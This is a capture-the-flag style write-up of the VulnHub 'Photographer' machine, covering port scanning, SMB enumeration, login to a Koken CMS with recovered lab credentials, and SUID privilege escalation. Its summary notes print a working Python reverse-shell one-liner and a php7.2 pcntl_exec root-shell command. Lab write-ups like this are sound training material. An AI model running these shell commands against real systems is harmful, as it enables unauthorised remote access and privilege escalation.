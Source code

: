 ```yaml
---
title: Photographer
categories: [VulnHub]
tags: [CMS, PrivEsc, RFI, SUIDs, SMB]
image:
  path: https://www.infosecarticles.com/content/images/2020/09/port80-1.png
  alt: Photographer Machine 📷
---
```


## **Description ⤵️**


💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.



### **Let’s find the IP Address first >>**

```bash
IP : 10.0.2.25
```
{: .nolineno}

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```
{: .nolineno}

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Let is further Enumerate →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

got the results →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}

<hr>
<br>

# **Summery Notes →**

> 💡
>Koken 0.22.24
>
>daisa@photographer.com
>
>agi@photographer.com
>
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
> 
> `.**/**usr**/**bin**/**php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }